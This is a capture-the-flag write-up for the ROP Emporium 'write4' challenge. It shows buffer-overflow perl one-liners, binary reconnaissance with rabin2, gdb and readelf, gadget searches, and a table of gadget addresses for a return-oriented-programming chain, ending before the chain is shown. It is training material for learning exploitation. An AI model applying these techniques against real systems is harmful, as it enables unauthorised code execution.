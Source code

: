 # write4
The challenge is available [here](https://ropemporium.com/challenge/write4.html).

## Black-Box Test
Like in all the challenges so far, we will also conduct a test now to discover the behavior of the software. Afterwards, we will find that the return address index is the same as in the previous challenges.

```
./write432
```
![](./0.png)
```
perl -e 'print "X"x44 . "\xef\xbe\xad\xde"' | ./write432
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## In-depth research
I assume that anyone reading this solution has already read the instructions for the challenge. We will find the address of the `print_file` function in the next command.

```
rabin2 -i write432
```
![](./3.png)

Additionally, we will also find the address of the regular helper function.

```
rabin2 -qs write432 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

Our goal is to make the call `print_file("flag.txt")`. Is the string "flag.txt" present in the binary? The instructions state that it is not. Let's verify this.

```
rabin2 -z write432
```
![](./5.png)

Indeed, there are no helpful strings. Let's take a look at the `usefulFunction`.

```
gdb write432
```
```
set disassembly-flavor intel
```
```
disas usefulFunction
```
![](./6.png)

To summarize, the `usefulFunction` calls `print_file` with one parameter on the stack. This parameter is the address of the string `"nonexistent"` from the previous image (you can also print it out to confirm). Therefore, `usefulFunction` executes `print_file("nonexistent")`.

To verify this in the best way possible, let's call `usefulFunction`. So let's exit the debugger (with the command `q`) and run the next command.

```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./7.png)

Okay, let's try again after creating a file named `nonexistent`.

```
echo ABCD > nonexistent
```
```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./8.png)

Indeed, the file was printed. Now, let's focus on the main issue of the current challenge, which is the absence of the string "flag.txt". To address this, we need to push parts of the string onto the stack and place it somewhere in memory.

This means we need to look for three things:
* a writable memory location
* a gadget that reads bytes from the stack to a register
* and a gadget that writes from a register to memory.

We'll start by searching for a writable memory location.

```
readelf -S write432
```
![](./9.png)

So, the `.data` section looks like a good candidate. It's writable, and its size is 8 bytes, which is just enough for our needs.

After some research and searching, I've also found two gadgets that are perfectly suited for our purpose.

```
python3 ~/ropper/Ropper.py
```
```
file write432
```
```
search pop
```
```
search /1/ mov [%], %
```
![](./10.png)

The combination of these two gadgets is simply perfect. The `edi` register will be used for the writable memory address, as derived from the `mov-gadget`. So, the `ebp` register will hold parts of the string "flag.txt". According to the `pop-gadget`, we learn that in the ROP chain, we will first write the address, followed by the relevant part of the string.

Now we have all the information we need.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop2registers | Gadget          | 0x080485aa | pop edi; pop ebp; ret;                                            |
| mov2memory    | Gadget          | 0x08048543 | mov dword ptr [edi], ebp; ret;                                    |

And the table describes the ROP chain itself:


